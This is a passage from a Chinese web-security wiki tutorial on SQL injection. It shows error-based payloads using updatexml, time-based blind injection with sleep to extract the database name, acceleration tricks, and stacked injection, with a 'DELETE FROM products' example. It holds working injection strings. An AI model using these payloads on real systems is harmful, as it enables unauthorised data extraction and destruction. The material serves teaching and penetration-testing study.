 ```sql
' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

有时可能需要将'去掉'

# 延时盲注

### 时间型盲注 [#](https://wiki.wgpsec.org/knowledge/web/sql-injection.html#时间型盲注)

盲注是在SQL注入攻击过程中，服务器关闭了错误回显，单纯通过服务器返回内容的变化来判断是否存在SQL注入的方式 。

可以用`benchmark`，`sleep`等造成延时效果的函数。

如果`benkchmark`和`sleep`关键字被过滤了，可以让两个非常大的数据表做[笛卡尔积 (opens new window)](https://blog.csdn.net/qq_32763643/article/details/79187931)产生大量的计算从而产生时间延迟；例如使用[`heavy query` (opens new window)](https://www.anquanke.com/post/id/104319)进行延时注入

或者利用复杂的正则表达式去匹配一个超长字符串来产生时间延迟。

**1、利用sleep判断数据库名长度**

```sql
' and sleep(5) and 1=1--+    页面返回不正常，延时5秒
' and sleep(5) and 1=2--+    页面返回不正常，不延时

and if(length(database())>1,sleep(5),1)
--if(条件表达式，真，假) --C语言的三目运算符类似
```

**2.取数据库名**

```sql
and if(substr(database(),1,1)='a',sleep(5),1)--+
```

### 时间型盲注的加速方式 [#](https://wiki.wgpsec.org/knowledge/web/sql-injection.html#时间型盲注的加速方式)

**1、Windows平台上的Mysql可以用DNSlog加速注入**

**2、利用二分查找法**

sqlmap盲注默认采用的是二分查找法

> - 利用 ASCII 码作为条件来查询，ASCII 码中字母范围在65~122之间
> - 以这个范围的中间数为条件，判断payload中传入的 ASCII 码是否大于这个中间数
> - 如果大于，就往中间数122这块查找。反之亦然

# 堆叠注入

  在SQL中，分号（;）是用来表示一条sql语句的结束。试想一下我们在 ; 结束一个sql语句后继续构造下一条语句，会不会一起执行？因此这个想法也就造就了堆叠注入。而union injection（联合注入）也是将两条语句合并在一起，两者之间有什么区别么？区别就在于union 或者union all执行的语句类型是有限的，可以用来执行查询语句，而堆叠注入可以执行的是任意的语句。例如以下这个例子。用户输入：1; DELETE FROM products服务器端生成的sql语句为： Select * from products where productid=1;DELETE FROM products当执行查询后，第一条显示查询信息，第二条则将整个表进行删除。
